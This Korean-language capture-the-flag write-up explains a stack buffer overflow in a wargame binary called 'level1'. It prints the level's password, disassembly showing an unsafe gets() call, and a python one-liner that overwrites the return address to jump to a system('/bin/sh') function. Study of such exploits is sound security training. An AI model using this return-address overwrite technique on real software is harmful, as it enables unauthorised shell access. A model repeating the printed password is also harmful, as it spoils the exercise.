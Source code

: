 > Password: 1fe8a524fa4bec01ca4ea2a869af2a02260d4a7d5fe7e7c24d8617e6dca12d3a

level1 파일을 objdump를 사용해서 어셈블리 코드로 보면

```
8048486:	83 ec 50             	sub    $0x50,%esp
8048489:	8d 44 24 10          	lea    0x10(%esp),%eax
804848d:	89 04 24             	mov    %eax,(%esp)
8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
```

main 함수에서 총 읽을 byte수를 받지 않아, buffer-overflow 위험이 있는 gets를 사용하는 것을 볼 수 있다.

따라서 gets로 할당된 버퍼의 크기인 0x40보다 큰 길이의 문자열을 집어넣었을 때 잘못된 위치가 덮어씌어지는데, 이를 이용해서 ebp + 4 (main의 ret 주소)를 덮어쓰게 되면, main 함수에서 ret명령이 실행되는 순간 실행 흐름이 main의 호출자로 가는 것이 아니라, 내가 원하는 주소로 바뀌게 할 수 있다.

또한 프로그램에서 run이라는 쓰이지 않은 함수가 존재하는 것을 볼 수 있는데,

```
08048444 <run>:
8048444:	55                   	push   %ebp
8048445:	89 e5                	mov    %esp,%ebp
8048447:	83 ec 18             	sub    $0x18,%esp
804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
804844f:	89 c2                	mov    %eax,%edx
8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
8048461:	00 
8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
8048469:	00 
804846a:	89 04 24             	mov    %eax,(%esp)
804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
804847e:	c9                   	leave  
804847f:	c3                   	ret   
```

이 함수는 단순히 system("/bin/sh")를 호출하는 함수이다.

따라서 main함수에서 0x40보다 길이가 더 긴 문자열을 입력하여 ebp + 0x4를 run 함수의 주소인 0x08048444로 덮어씌우면 다음 레벨의 쉘을 획득할 수 있다.

```bash
cat <(python -c 'print "A" * 76 + "\x44\x84\x04\x08",') - | ./level1
```

이때 주소값은 엔디안을 고려하여 넣어야 한다.